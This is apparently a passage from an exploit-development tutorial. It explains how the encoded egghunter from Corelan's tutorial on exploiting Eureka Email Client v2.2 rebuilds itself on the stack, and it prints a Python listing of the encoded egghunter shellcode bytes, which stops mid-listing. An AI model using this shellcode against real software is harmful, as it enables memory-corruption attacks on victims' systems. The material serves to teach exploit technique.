 In the Corelan egghunter post mentioned above, the team guides readers through the process of using an egghunter to exploit a vulnerability in <a href="https://www.exploit-db.com/exploits/10235" _target="blank">Eureka Email Client v2.2</a>.

The encoded form of the egghunter used in the tutorial functions as follows:

1. Adjust <b>esp</b> to point to a desired location accessible to our program counter
2. Zero out <b>eax</b>
3. Using a series of three subtract operations, reproduce 4 bytes of the decoded egghunter and store in <b>eax</b>
4. Push <b>eax</b> (which holds 4 bytes of the decoded egghunter) onto stack
5. Repeat steps 2-4 until all bytes of egghunter have been pushed onto stack

After the shellcode above finishes pushing the decoded egghunter onto the stack, we assume from Step 1 that our program counter has access to the egghunter and can proceed to execute the decoded instructions. <i>Note: Throughout this series, I will refer to the loop above as the "encoded egghunter" for simplicity's sake even though the loop really just contains instructions to push a raw egghunter onto the stack.</i>

A Python version of the encoded egghunter might look something like this:

```py
#w00t tag
egghunter = ""
#\x61 = popad - to make ESP point below the encoded hunter
egghunter += "\x61\x61\x61\x61\x61\x61\x61\x61"
#-----8 blocks encoded hunter---------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x30\x71\x55\x71"     #x75 xE7 xFF xE7
egghunter += "\x2d\x30\x71\x55\x71"
egghunter += "\x2d\x2B\x36\x55\x35"
egghunter += "\x50"                     #push eax
#--------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x71\x30\x71\x71"     #xAF x75 xEA xAF
egghunter += "\x2d\x71\x30\x71\x71"
egghunter += "\x2d\x6F\x29\x33\x6D"
egghunter += "\x50"                     #push eax
#--------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x50\x30\x25\x65"     #x30 x74 x8B xFA
egghunter += "\x2d\x50\x30\x25\x65"
egghunter += "\x2d\x30\x2B\x2A\x3B"
egghunter += "\x50"                     #push eax
#---------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x71\x71\x30\x41"     #xEF xB8 x77 x30
egghunter += "\x2d\x71\x71\x30\x41"
egghunter += "\x2d\x2F\x64\x27\x4d"
egghunter += "\x50"                     #push eax
#---------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x42\x53\x30\x30"     #x3C x05 x5A x74
egghunter += "\x2d\x41\x53\x30\x30"
egghunter += "\x2d\x41\x54\x45\x2B"
egghunter += "\x50"                     #push eax
#---------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x54\x30\x66\x46"     #x02 x58 xCD x2E
egghunter += "\x2d\x55\x30\x66\x46"
```